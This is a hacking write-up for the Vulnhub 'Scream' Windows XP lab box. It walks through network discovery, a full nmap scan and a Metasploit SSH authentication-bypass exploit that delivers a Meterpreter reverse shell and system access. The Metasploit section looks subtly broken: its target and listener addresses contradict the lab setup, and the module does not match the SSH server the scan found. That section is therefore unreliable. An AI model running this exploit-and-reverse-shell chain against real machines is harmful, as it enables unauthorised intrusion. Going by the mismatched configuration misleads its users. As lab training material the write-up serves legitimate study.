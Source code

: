 ```yaml
---
published: false
---
```

Vulnhub virtual machine; OSCP prep box, a windows box with a very well known vulnerability that leads to system level access. Setup of box takes longer then actual exploitation (metasploit used).

----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Creating the workspace:

Estimated setup time: ~1hr

Requirements: 
Windows XP with key - I wish you luck on your adventures finding this information.
.NET Framework Version 4 (or higher) - [[Link]](https://www.microsoft.com/en-us/download/details.aspx?id=17851)
VulnInjector


![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551917335740_image.png)


booting: scream.iso

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551917674648_image.png)


Installing .NET Framework:


Discovering VM on network

    netdiscover -r 10.10.10.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551920898839_image.png)


Target: 10.10.10.201


# Enumeration

Nmap scan:

    nmap -sV -sC -oA nmap/scream 10.10.10.201

output:

    Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 10:25 GMT
    mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
    Nmap scan report for 10.10.10.201
    Host is up (0.00095s latency).
    Not shown: 996 filtered ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | drwxr-xr-x 1 ftp ftp              0 Mar 06 17:00 bin
    | drwxr-xr-x 1 ftp ftp              0 Mar 06 17:04 log
    |_drwxr-xr-x 1 ftp ftp              0 Mar 06 17:00 root
    |_ftp-bounce: bounce working!
    | ftp-syst:
    |_  SYST: UNIX emulated by FileZilla
    22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
    | ssh-hostkey:
    |   1024 2c:23:77:67:d3:e0:ae:2a:a8:01:a4:9e:54:97:db:2c (DSA)
    |_  1024 fa:11:a5:3d:63:95:4a:ae:3e:16:49:2f:bb:4b:f1:de (RSA)
    23/tcp open  telnet
    | fingerprint-strings:
    |   GenericLines, NCP, RPCCheck, tn3270:
    |     Scream Telnet Service
    |     login:
    |   GetRequest:
    |     HTTP/1.0
    |     Scream Telnet Service
    |     login:
    |   Help:
    |     HELP
    |     Scream Telnet Service
    |     login:
    |   SIPOptions:
    |     OPTIONS sip:nm SIP/2.0
    |     Via: SIP/2.0/TCP nm;branch=foo
    |     From: <sip:nm@nm>;tag=root
    |     <sip:nm2@nm2>
    |     Call-ID: 50000
    |     CSeq: 42 OPTIONS
    |     Max-Forwards: 70
    |     Content-Length: 0
    |     Contact: <sip:nm@nm>
    |     Accept: application/sdp
    |     Scream Telnet Service
    |_    login:
    80/tcp open  http    Tinyweb httpd 1.93
    |_http-server-header: TinyWeb/1.93
    |_http-title: The Scream - Edvard Munch
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port23-TCP:V=7.70%I=7%D=3/4%Time=5C7CFD3F%P=x86_64-pc-linux-gnu%r(NULL,
    SF:12,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1
    SF:f")%r(GenericLines,34,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff
    SF:\xfd\x18\xff\xfd\x1f\r\n\r\nScream\x20Telnet\x20Service\r\nlogin:\x20")
    SF:%r(tn3270,3C,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\
    SF:xff\xfd\x1f\xff\xfc\x18\xff\xfe\x19\xff\xfc\x19\xff\xfb\0Scream\x20Teln
    SF:et\x20Service\r\nlogin:\x20")%r(GetRequest,42,"\xff\xfb\x01\xff\xfe\"\x
    SF:ff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1fGET\x20/\x20HTTP/1\.0\r\n\r
    SF:\nScream\x20Telnet\x20Service\r\nlogin:\x20")%r(RPCCheck,5C,"\xff\xfb\x
    SF:01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1f\x80\0\0\(r\x
    SF:fe\x1d\x13\0\0\0\0\0\0\0\x02\0\x01\x86\xa0\0\x01\x97\|\0\0\0\0\0\0\0\0\
    SF:0\0\0\0\0\0\0\0\0\0\0\0Scream\x20Telnet\x20Service\r\nlogin:\x20")%r(He
    SF:lp,36,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd
    SF:\x1fHELP\r\nScream\x20Telnet\x20Service\r\nlogin:\x20")%r(SIPOptions,10
    SF:F,"\xff\xfb\x01\xff\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1f
    SF:OPTIONS\x20sip:nm\x20SIP/2\.0\r\nVia:\x20SIP/2\.0/TCP\x20nm;branch=foo\
    SF:r\nFrom:\x20<sip:nm@nm>;tag=root\r\nTo:\x20<sip:nm2@nm2>\r\nCall-ID:\x2
    SF:050000\r\nCSeq:\x2042\x20OPTIONS\r\nMax-Forwards:\x2070\r\nContent-Leng
    SF:th:\x200\r\nContact:\x20<sip:nm@nm>\r\nAccept:\x20application/sdp\r\n\r
    SF:\nScream\x20Telnet\x20Service\r\nlogin:\x20")%r(NCP,31,"\xff\xfb\x01\xf
    SF:f\xfe\"\xff\xfe\0\xff\xfd\x03\xff\xfd\x18\xff\xfd\x1f\x13Scream\x20Teln
    SF:et\x20Service\r\nlogin:\x20");
    MAC Address: 08:00:27:F2:AD:C7 (Oracle VirtualBox virtual NIC)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 55.15 seconds
    

This is an older box lets see what the front door has to offer - SSH

    searchpsloit sshd 2.1.3

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551921309235_image.png)


download locally with `-m`

inspect code:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_900673549BFB7679AF289A3C027FDEC21FD4D6803119D28EB8AE4D13E685ED02_1551921365635_image.png)


Metasploit

    msf exploit(freesshd_authbypass) > show options
     
    Module options (exploit/windows/ssh/freesshd_authbypass):
     
       Name       Current Setting                                                   Required  Description
       ----       ---------------                                                   --------  -----------
       RHOST      192.168.1.22                                                      yes       The target address
       RPORT      22                                                                yes       The target port
       USERNAME                                                                     no        A specific username to try
       USER_FILE  /data/metasploit-4.9/apps/pro/msf3/data/wordlists/unix_users.txt  yes       File containing usernames, one per line
     
     
    Payload options (windows/meterpreter/reverse_tcp):
     
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
       LHOST     10.10.10.201     yes       The listen address
       LPORT     9999             yes       The listen port
     
     
    Exploit target:
     
       Id  Name
       --  ----
       0   Freesshd <= 1.2.6 / Windows (Universal)
     
     
    msf exploit(freesshd_authbypass) > exploit
     
    [*] Started reverse handler on 10.10.10.201:9999 
    [*] Trying username '4Dgifts'
    [*] Trying username 'EZsetup'
    [*] Trying username 'OutOfBox'
    [*] Trying username 'ROOT'
    [*] Trying username 'adm'
    [*] Trying username 'admin'
    [*] Uploading payload, this may take several minutes...
    [*] Sending stage (769536 bytes) to 10.10.10.201

Exploit leads to direct `NT/SYSTEM`

Bring me the root!

-exec

